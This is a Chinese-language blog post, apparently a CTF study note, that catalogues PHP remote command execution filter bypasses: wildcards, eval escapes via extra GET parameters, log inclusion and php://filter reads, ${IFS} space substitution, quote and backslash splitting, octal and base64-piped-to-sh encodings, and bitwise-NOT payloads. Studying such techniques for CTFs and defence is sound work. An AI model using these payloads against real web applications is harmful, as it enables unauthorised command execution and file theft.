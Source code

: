 ```yaml
---
title: RCE PHP远程命令执行绕过
date: 2024-05-15 21:53:24
permalink: /pages/96f5e6/
categories:
  - web
tags:
  - rce
  - php
author: 
  name: ajay
  link: https://the0n3.top
---
```



## 通配符

绕过文件名/扩展名的限制

```php
tac f*
cat f?ag.p?p
less f*
more f*
```

## php函数执行命令

system函数会将参数字符串作为系统命令执行

```shell
system("ls")
```

类似功能函数，eval，passthru，assert，exec，shell_exec，pre_match，create_function等等

参考

[PHP敏感函数](https://blog.csdn.net/FINYIE/article/details/128284692)


## 逃逸

```php
# 检测函数waf()
eval(waf($_GET[cmd]));
```

题目对传参的变量要求很严格但没有严格过滤时，可以尝试逃逸
```
# 命令逃逸  
?cmd=$_GET[a]($_GET[b]);&a=assert&b=phpinfo()  
日志包含  
?cmd=include$_GET[1];&1=/var/log/apache2/access.log  
# 伪协议读文件
?cmd=include$_GET[1];&1=php://filter/convert.base64-encode/resource=index.php
# 其他
```

## 反引号，echo执行代码  

```bash
echo `ls`
```

echo会将反引号中字符串作为命令执行，但是没有回显

```php
eval(`ls`);
```

**反引号搭配重定向“>”符号有奇效，把命令的结果打印到新的文件中**，详细看[写文件](http://the0n3.top//pages/a12979/)

## 拼接

在命令行定义变量，拼接食用

```bash
a=l;b=s;$a$b;
```

![3](https://the0n3.top/medias/ctfshow_web30_命令执行/3.png)

## 空格绕过

注意：其中的url编码只有在get传参时能使用

```url
%09     # tab的url编码
%0a     # 换行url编码
${IFS}  # bash中的分隔符，空格，tab，换行符
$IFS    # 同上
$IFS$9  # 同上
<       # 重定向
>      # 重定向
{命令,参数} # 例如，{ls,/} 
```

**以上，<，<>重定向不能和通配符？同时使用**  
**%09，%0Atab和换行的url编码，只有明确ban了才不能用，如果只是ban数字和字母，不妨碍继续使用**

## 转义绕过

在一些时候开发者(出题人)，可能只做了简单的关键词过滤或过滤逻辑不严格时，你或许可以通过转义字符绕过(这里转义字符一定不要有实际转义)

你可以在终端尝试，在加上反斜杠后不会转义的字符前加上反斜杠，例如，l，c没有实际意义的转义，所以转义后还是本身  
**Tip**：转义在终端类环境下可用，例如system("")函数，只有一层php的eval()函数不能直接执行linux命令，配合反引号可以执行，但不会有回显，可以再配合一次重定向写文件

payload：c=system("ta\c f\lag.php");

```php
$c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

当正则匹配字段/命令限制较多时，你可以多一个选择

[参考](linux/04tran-meaning.md)


## 单双引号

在linux环境下，在要执行的命令中加入''单引号 双引号""，并不会解析，命令会正常执行，这也可以作为绕过关键字限制的一种方法

```bash
p''w''d
l''s
pw""d
l""s
```

等等类似命令都可以正常执行


## 八进制

在linux环境下，把命令转化为八进制数，使用$'\八进制数'，命令会正确执行，注意：命令不能带有参数  例如ls -lah，tac /flag中-lah,/flag都算参数

更详细内容可以看**探姬**的[bashfuck](https://github.com/ProbiusOfficial/bashFuck)这个项目

ls命令的八进制数

```bash
$'\154\163'
```

## {命令,参数}

在linux下可以使用{ls,/}格式执行命令

```bash
{ls,/}
```

## bin目录下工具

在代码执行限制时，后期练习可能ban掉所有字母，如果数字，通配符？和斜杠/还能用，可以使用bin目录下带数字的工具，例如/bin/base64

```bash
/???/????64${IFS}????.???
```

## 编码，管道符

在命令行使用ls的base64编码执行

```bash
echo bHM=|base64 -d|sh
```

解析：  
- 1.通过输出流echo打印base64编码，传递给管道符的第二部分
- 2.base64进行解码，得到原始命令'ls'，传递给第三部分
- 3.sh在命令行中执行这个原始命令

![2](https://the0n3.top/medias/ctfshow_web30_命令执行/2.png)

在空格被ban时，可以使用${IFS}，$IFS，$IFS$9填充空格

```bash
echo$IFSbHM=|base64$IFS$9-d|sh
```

## 取反

```php
<?php

highlight_file(__FILE__);
# 接收命令及参数
$cmd = $_GET['cmd'];
$param = $_GET['param'];
# 按位取反一次
$execmd = (~$cmd);
$param = (~$param);
# 再取反一次得到本身
eval("(~$execmd)(~$param);");
```
> payload：?cmd=system&param=ls

## 自增

参考：

[自增，取反，异或 实现RCE](https://blog.csdn.net/whale_waves/article/details/136365419)

## 异或

大佬写的写的非常好了，又新又好😍，直接放参考了

参考：

[无字母rce](https://blog.csdn.net/m0_64180167/article/details/134971320)

[无字母rce](https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)

你可以阅读同类型其他大佬内容文章：

[命令执行总结](https://blog.csdn.net/qq_45927819/article/details/109671655#PATH_107)